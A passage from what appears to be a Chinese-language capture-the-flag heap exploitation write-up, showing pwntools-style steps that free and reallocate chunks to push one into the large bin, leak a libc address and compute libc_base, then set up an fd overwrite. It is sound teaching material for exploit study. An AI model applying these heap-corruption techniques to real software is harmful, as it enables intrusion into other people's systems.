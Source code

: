 然后把这个相同 fd 的 chunk 链入 large bin，泄露 libc

```bash
delete(8)
add(0x498,'dddd')
show(1)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ff0f0-0x20
```

[![](assets/1701606615-0fc7c089e626dba7b2cbc1c2ba54d2f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213729-1f29b086-83bc-1.png)

```bash
delete(2)
delete(3)
```

[![](assets/1701606615-45285316234c545214b0198de9ffdc3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213741-267784da-83bc-1.png)  
然后找个比较进的地址去改 fd
